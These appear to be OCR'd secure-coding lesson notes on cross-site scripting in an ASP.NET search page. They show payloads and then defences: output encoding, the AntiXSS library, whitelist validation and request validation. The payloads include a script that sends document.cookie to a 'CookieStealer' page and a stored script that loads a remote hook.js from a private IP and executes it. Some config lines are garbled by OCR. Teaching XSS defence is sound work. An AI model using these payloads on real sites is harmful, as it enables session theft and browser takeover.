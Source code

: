           ProductGridView.DataSource = dc.Products.Where(p => p.ProductSubcategoryID == id).ToList();

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

**02 - XSS**

      localhost:11209/Search.aspx?q=lager<script>location.href='http://localhost:52305/CookieStealer.aspx?cookie='%2Bdocument.cookie;</script>

      http://localhost:11209/Search.aspx?q=lager%3CIMG%20SRC=%22/%22%20onerror=%22alert%28%27xxs%27%29%22%3E

      http://localhost:11209/Search.aspx?q=alert%28%60XSS%60%29

Product Description - XSS Payload Injector

[http://www.multidmedia.com/common/img/Features/Flash11.png](http://www.multidmedia.com/common/img/Features/Flash11.png)

<script type="text/javascript">

var xmlhttp;

if (window.XMLHttpRequest){

  xmlhttp=new XMLHttpRequest();}

else{

  xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");}

xmlhttp.open("GET","http://172.16.52.213:3000/hook.js",false);

xmlhttp.send();

if(xmlhttp.status==200){

  var str=xmlhttp.responseText;

  document.write("\x3Cscript\x3E"+ str +"\x3C/script\x3E");}

</script>

1- Output Encoding

     SearchTerm.Text =AntiXssEncoder.HtmlEncode(searchTerm,true);

2- Anti-XSS Library

      SearchTerm.Text =AntiXssEncoder.HtmlEncode(searchTerm,true);

      varq =<%=Microsoft.Security.Application.Encoder.JavaScriptEncode(Request.QueryString["q"])%>

3- MVC

4- WhiteList

     if(!Regex.IsMatch(searchTerm,@"^[\p{L} \.\-]+$"))

5- RequestValidation

     <httpRuntimetargetFramework="4.5"requestValidationMode="4.5"/>

     <pagesvalidateRequest="true">
